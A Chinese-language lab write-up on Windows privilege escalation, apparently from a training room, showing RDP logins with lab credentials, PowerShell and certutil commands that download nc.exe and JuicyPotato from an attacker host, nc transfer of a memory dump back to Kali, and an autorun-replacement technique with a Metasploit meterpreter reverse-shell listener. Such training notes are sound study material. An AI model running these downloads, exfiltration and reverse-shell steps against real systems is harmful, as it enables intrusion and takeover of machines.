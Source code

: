 
# rdp连接
user登录
> rdesktop -u user -p password321 10.10.54.152 -r sound:on -g workarea

TCM登录
> rdesktop -u TCM -p Hacker123 10.10.54.152 -r sound:on -g workarea


为了方便起见，应该先传一些实用工具到靶机。

1. 传nc.exe到靶机

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.13.21.169:8000/nc.exe','C:\temp\nc.exe')"

certutil -urlcache -split -f "http://192.168.49.102/JuicyPotato.exe" JuicyPotato.exe

2. 从靶机传文件回kali

接收端：
> nc -nlp 9995 -vv > iexplore.DMP

发送端：（需在cmd下）
nc -n 10.13.21.169 9995 < iexplore.DMP



# 1.注册表提权-自动运行（ Registry Escalation - Autorun）

## 前提
1. Autorun文件可写（可替换）
2. 需要另一个用户登录才会触发

## 思路
Autorun，就是启动时自动运行，这个思路时通过修改注册表里的二进制文件（用msfvenom生成一个同名的反弹shell文件），替换原有的二进制文件。当其他用户登录系统时，触发注册表里的Autorun文件，从而执行我们替换的payload，然后我们就得到了登录用户的权限。


## 怎么利用?

靶机：
1. 运行Autoruns64.exe检查自动运行的文件。（Open command prompt and type: C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe）
2. 点击登录选项（In Autoruns, click on the ‘Logon’ tab.）
3. 在显示的结果当中，留意“我的程序”指向的二进制文件。（From the listed results, notice that the “My Program” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.）
4. 用accesschk64.exe检查这个Autorun文件的读写权限。（ In command prompt type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"）
5. 从上面的检查结果中可以知道所有人对这个Autorun文件有读写权限（From the output, notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the “program.exe” file.）

攻击机：
监听
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
